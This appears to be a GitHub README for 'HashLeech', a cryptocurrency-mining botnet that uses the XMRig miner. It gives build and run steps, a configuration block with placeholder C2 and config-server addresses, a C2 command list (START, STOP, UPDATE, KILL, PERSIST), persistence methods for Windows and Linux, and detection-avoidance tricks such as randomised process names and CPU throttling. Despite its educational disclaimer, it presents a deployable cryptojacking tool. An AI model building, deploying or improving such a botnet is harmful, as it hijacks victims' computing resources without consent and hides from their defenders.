 HashLeech - Cryptocurrency Mining Botnet
Disclaimer: This project is for educational and research purposes only. Unauthorized cryptocurrency mining on systems you don't own is illegal and unethical. Use this code only on systems you have explicit permission to test on.

Overview
HashLeech is a cryptocurrency mining botnet implementation that demonstrates how malware can distribute and manage cryptocurrency miners across multiple systems. Unlike traditional botnets focused on DDoS attacks, HashLeech specializes in Monero (XMR) mining using the XMRig miner.

Features
|---------------------------------------------------------------------------|
|Automatic Miner Deployment: Downloads and installs XMRig miner automatically|
|Command & Control (C2) Server: Centralized control of all mining nodes|
|Stealth Operation: Runs with minimal resource usage detection|
|Cross-Platform: Supports both Windows and Linux systems|
|Persistence Mechanisms: Automatically reinstalls after reboots|
|Dynamic Configuration: Remote updates of mining pool and settings|
|Heartbeat Monitoring: Regular status reports to C2 server|
|Resource Optimization: Adjusts mining intensity based on system specs|

```mermaid
graph TD
    BotClient[Bot Client (this repository)]
    C2Server[C2 Server (separate repository)]
    XMRig[XMRig Miner]

    BotClient -->|Connects to| C2Server
    BotClient -->|Downloads and runs| XMRig
    BotClient -->|Reports mining statistics| C2Server
    BotClient -->|Implements persistence| BotClient

    C2Server -->|Manages all connected bots| BotClient
    C2Server -->|Sends mining commands| XMRig
    C2Server -->|Collects statistics| BotClient
    C2Server -->|Updates mining configuration| XMRig

    XMRig -->|Official XMRig miner| XMRig
    XMRig --

```

Installation
For Research/Testing Purposes
Clone the repository:

bash
git clone https://github.com/yourusername/HashLeech.git
cd HashLeech
Configure the C2 server address in bot.go:

go
const C2Address = "your.c2.server.com:7003"
Build the bot:

bash
go build -o HashLeech
Run the bot:

bash
./HashLeech
Command Reference
Command	Description	Example
START	Start mining operation	START
STOP	Stop mining operation	STOP
UPDATE	Update miner binary	UPDATE
KILL	Remove miner and bot	KILL
PERSIST	Install persistence mechanism	PERSIST
Configuration
Edit the following constants in bot.go before building:

go
const (
    C2Address         = "your.c2.server.com:7003"  // Your C2 server address
    xmrigURL          = "https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip"
    configURL         = "http://yourconfigserver.com/config.json" 
    minerPath         = "C:\\Windows\\Temp\\xmrig.exe"           // Windows path
    // minerPath      = "/tmp/xmrig"                            // Linux path
)
Mining Configuration
The config.json file should contain standard XMRig configuration. Example:

json
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "url": "pool.moneroocean.stream:10128",
            "user": "your_wallet_address",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
Persistence Mechanisms
HashLeech implements multiple persistence methods:

Windows:

Registry Run key

Scheduled tasks

Linux:

Systemd service

Cron job

Init.d script

Detection Avoidance
Randomizes process names

Uses standard TLS for C2 communication

Limits CPU usage to avoid detection

Runs with low process priority

Hides in system temp directories
